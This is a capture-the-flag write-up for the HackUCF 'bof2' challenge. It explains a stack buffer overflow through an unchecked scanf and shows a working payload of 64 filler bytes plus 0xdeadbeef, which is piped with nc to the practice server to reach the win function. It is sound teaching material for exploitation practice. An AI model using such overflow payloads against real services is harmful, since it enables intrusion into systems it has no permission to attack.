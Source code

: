 # bof2
**Category:** Pwn

**Points:** 20

**Description:**

Author: kablaa

nc ctf.hackucf.org 9001

> **Files:** bof2, bof2.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 64 chars:
```c
void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}
```

When the program runs it waits for input at this point, and overflowing the buffer may overflow into the `correct` variable.

To test this I first created a file with 64 A characters in. This allows us to see how the stack is organised.
```
> python -c "print('A'*64)" > inp_file.txt
```

First, for this run of the code, we can see that our `correct` variable ends up at 0xffbab10c (I guessed this was the `correct` variable as it is set to 0):

![Location of 'correct' variable](correct_location.png)

We can see this area on the stack (highlighted in yellow):

!['Correct' variable on the stack](stack1.png)

If we move the debugger on one step, we can see this area get zeroed:

!['Correct' variable set to zero](stack2.png)

We can also see that our `bof` array is at 0xffbab0cc (must be `bof` as it's being set up for use in the `scanf()`):

![Location of 'bof' array](bof_location.png)

If we send our 64 A characters in, we can clearly see this array on the stack:

![bof array filled with As](stack3.png)

We can also see that it sits right up against our `correct` variable, so we should be able to set it to 0xdeadbeef by sending those characters after our 64 A characters (we need to reverse the order because - little endian). Our input file is now set with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" > inp_file.txt
```

If we run this and look at the stack we can now see our A characters followed by our `deadbeef`:

![As and deadbeef](stack4.png)

Tracing through, we end up in the `win()` function. So now it's time to try it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001
````

This worked, and gave me the flag.
